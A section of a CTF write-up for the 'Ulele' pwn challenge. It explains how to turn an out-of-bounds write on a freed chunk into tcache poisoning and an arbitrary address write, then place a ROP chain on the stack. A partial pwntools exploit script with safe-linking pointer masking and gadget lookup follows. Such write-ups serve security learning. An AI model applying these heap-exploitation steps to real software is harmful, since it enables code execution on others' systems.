 # 0x04 Ulele: Arbitrary Address Write

After leaking addresses, we now consider about creating AAW primitive. We need to link a fake chunk into tcache then allocate it to gain AAW since there is no `edit` feature in the challenge. 


However, we already have OOB Write. And we all know that OOB writing on a freed chunk can link arbitrary address into tcache as a fake chunk.

![Double Free to AAW](/Figures/uKlele/DoubleFree2OOB.drawio.png)


- Free the blue chunk
- Create a fake chunk in the green chunk 
- OOB write to link arbitrary address into tcache as a fake chunk
- Allocte twice to get AAW


In this challenge, we do AAW to write our rop chain on stack to get code execution:

```py
...
for x in range(8):
    free(0x120+x)
for x in range(7):
    add()
free(0x199)
free(0x19a)
free(0x127)
add(p64(((heap>>12)+1)^(0x555555571b60-0x55555556c000+heap)))
add("TBF") # 19a 0x555555571bc0
mask = (heap>>12)+( 0x555555571- 0x55555556c)
add(flat([1,2,3,4,5,6,0,0x71,mask ^ (0x555555571b70-0x55555556c000+heap),0x71,mask]))

add()
free(0x199)

add(flat([1,2,3,4,5,6,7,8,0,0x71,((heap>>12)+( 0x555555571- 0x55555556c)) ^ (stack-(0x7fffffffdbf8-0x7fffffffda78+0x8))]))
add()

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc.address = base
rop     = ROP(libc)
rdi     = rop.find_gadget(['pop rdi','ret'])[0]
ret     = rdi+1
```

[0]: https://github.com/n132/CTF-Write-Up/tree/main/2024-Crew-CTF/Ulele